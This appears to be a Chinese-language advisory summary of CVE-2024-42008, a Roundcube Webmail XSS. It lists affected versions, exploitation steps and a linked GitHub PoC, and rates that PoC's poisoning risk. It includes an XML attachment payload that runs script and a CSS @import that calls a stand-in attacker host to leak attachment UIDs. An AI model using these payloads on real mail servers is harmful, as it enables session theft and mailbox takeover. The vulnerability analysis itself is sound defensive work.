 ## CVE-2024-42008 - Roundcube Cross-Site Scripting (XSS)

**漏洞编号:** CVE-2024-42008

**漏洞类型:** Cross-Site Scripting (XSS)

**影响应用:** Roundcube Webmail

**危害等级:** 高危，可能导致用户邮箱信息泄露、控制用户邮箱、发送恶意邮件等。

**影响版本:** 1.5.7 及 1.6.x 至 1.6.7

**利用条件:** 需要用户打开包含恶意附件的电子邮件。

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

该漏洞存在于Roundcube Webmail的`rcmail_action_mail_get->run()`函数中。攻击者可以通过发送包含恶意XML附件的电子邮件，利用Content-Type header绕过XSS防御。附件中的JavaScript代码将在受害者的浏览器中执行，攻击者可利用该代码窃取用户cookie、会话信息，或者发送恶意邮件等。

**漏洞利用方式:**

1.  攻击者构造一个包含恶意XML附件的电子邮件。该XML文件包含嵌入的JavaScript代码，例如：
    ```xml
    <something:script xmlns:something="http://www.w3.org/1999/xhtml">
    	alert(origin)
    </something:script>
    ```
2.  攻击者发送此邮件给受害者。
3.  受害者打开该邮件，并点击查看附件。即使 Roundcube 禁用了“打开附件”选项，附件仍然可以通过特定的 URL 访问：`https://roundcube.host.com/?_task=mail&_mbox=INBOX&_uid=[UID]&_part=2&_download=0&_action=get`
4.  由于 Content-Type header 处理不当，附件中的JavaScript代码将在受害者的浏览器中执行。
5.  攻击者可以通过注入 CSS，配合一个 JavaScript 服务器端脚本，来提取恶意附件的 UID。
6.  CSS 注入通过在邮件正文中嵌入以下代码实现：
    ```css
    <style>
    	@import "//a.attackerdomain.com/start?"
    </style>
    ```
7.  JavaScript 服务器端脚本 (`roundcube-css-exploit.js`) 负责接收和处理 CSS 注入发起的请求，提取所需的信息。
8.  之后，攻击者可以使用窃取的UID构建恶意链接，或者发送包含恶意代码的第二封邮件来完成攻击。

**有效性评估:**

根据漏洞描述和提供的PoC代码，该漏洞是有效的。PoC展示了如何利用XML附件注入XSS，以及如何利用CSS注入提取有用的信息（例如附件UID）。搜索引擎结果也表明该漏洞已经公开并被广泛讨论。

**投毒风险评估:**

分析提供的 `roundcube-css-exploit.js` 代码，主要功能是接收 Roundcube 服务器发起的 CSS 注入请求，并从中提取信息。代码中包含一些域名和路径硬编码，例如 `/etc/letsencrypt/live/[a.attackerdomain.com]/` 和 `https://a.attackerdomain.com`。这些硬编码用于指定 SSL 证书路径和攻击者服务器的域名。虽然这些硬编码限制了代码的通用性，但也降低了直接的投毒风险，因为任何试图利用该代码的人都需要修改这些参数。总体来看，该PoC代码的投毒风险较低，为0%。

**项目地址:** [victoni/Roundcube-CVE-2024-42008-and-CVE-2024-42010-POC](https://github.com/victoni/Roundcube-CVE-2024-42008-and-CVE-2024-42010-POC)

**漏洞详情:** [CVE-2024-42008](https://nvd.nist.gov/vuln/detail/CVE-2024-42008)
